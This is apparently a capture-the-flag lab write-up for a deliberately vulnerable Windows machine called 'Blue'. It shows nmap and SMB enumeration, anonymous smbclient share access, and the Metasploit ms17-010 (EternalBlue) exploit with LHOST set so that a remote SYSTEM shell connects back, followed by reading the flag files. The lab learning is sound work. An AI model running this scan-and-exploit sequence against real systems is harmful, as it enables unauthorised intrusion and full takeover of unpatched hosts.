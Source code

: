 **Ping**
```
ping 10.10.10.40
```
![[Pasted image 20240613133354.png]]

**Nmap default Scan**
```
nmap 10.10.10.40 -oN dnmap
```
![[Pasted image 20240613173709.png]]

**Script and Service Scan**
```
nmap 10.10.10.40 -sC -sV -oN snmap
```
![[Pasted image 20240613174647.png]]
![[Pasted image 20240613174727.png]]

All port Scan
```
nmap 10.10.10.40 -sC -sV -p- -T5 --open -oN anmap
```
No new Ports  found, same as script and Service scan

Smb Script Scan
```
nmap --script smb-vuln* --script smb-enum-users.nse 10.10.10.40
```
![[Pasted image 20240613184643.png]]
It is Vulnerable as Expected.

Smb Enumeration
```
smbclient -U '' -L \\\\10.10.10.40\\
```
![[Pasted image 20240613174105.png]]
We got some  interesting share, lets enumerate.

```
smbclient -N //10.10.10.40/share
```
![[Pasted image 20240613174159.png]]
no useful files in **'share',** will try with **'users'**

```
smbclient -N //10.10.10.40/users
```
![[Pasted image 20240613174332.png]]
This looks interesting, lets  enumerate further.

All the files from the below screenshots are got from the smb share **Users**
![[Pasted image 20240613183814.png]]

Can't find any useful Information after analysing the files I got from the SMB Shares.

Will jump back to the Vulnerability we found for SMB.


Will use Metasploit
![[Pasted image 20240613185004.png]]

Will Search for exploits
```
search ms17-010
use 2
```
![[Pasted image 20240613185115.png]]
![[Pasted image 20240613185208.png]]

Will  set LHOST, RHOST
```
set LHOST 10.10.14.61
set RHOST 10.10.10.40
exploit
```
![[Pasted image 20240613185359.png]]

We got Shell
```
shell
```
```
whoami
```
![[Pasted image 20240613185441.png]]
We landed as a nt/authority, so no need Privilege escalation.

Got user.txt in user haris Desktop
```
type user.txt
ipconfig
```
![[Pasted image 20240613185815.png]]

Got Root flag in Administrator Desktop
```
type root.txt
ipconfig
```
![[Pasted image 20240613185959.png]]


We are done with BLUEEEEEEEE.....:)